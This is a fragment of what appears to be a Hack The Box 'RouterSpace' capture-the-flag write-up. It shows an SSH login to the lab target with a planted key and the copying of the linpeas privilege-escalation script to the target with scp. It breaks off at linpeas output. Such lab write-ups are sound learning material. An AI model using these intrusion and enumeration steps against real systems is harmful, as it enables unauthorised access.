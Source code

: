 Content-Type: application/json; charset=utf-8

Content-Length: 11

ETag: W/"b-ANdgA/PInoUrpfEatjy5cxfJOCY"

Date: Tue, 01 Mar 2022 18:51:19 GMT

Connection: keep-alive



"0.0.0.0\n"
https://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet
```
┌──(kali㉿kali)-[~/Documents/HTB/RouterSpace]
└─$ ssh -i mykey paul@10.129.174.184                                                                                                                                                                                              255 ⨯ 1 ⚙
Enter passphrase for key 'mykey': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 01 Mar 2022 06:51:34 PM UTC

  System load:           0.04
  Usage of /:            70.5% of 3.49GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.129.174.184
  IPv6 address for eth0: dead:beef::250:56ff:fe96:8166

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

80 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
paul@routerspace:~$ 
```

# Enumeration
Send linpeas with ssh
```
──(kali㉿kali)-[/opt/PEASS-ng/linPEAS]
└─$ scp -i /home/kali/Documents/HTB/RouterSpace/mykey linpeas.sh paul@10.129.174.184:/home/paul/  
Enter passphrase for key '/home/kali/Documents/HTB/RouterSpace/mykey': 
linpeas.sh

╔══════════╣ Sudo version                                                                                                                                                                                                                   
```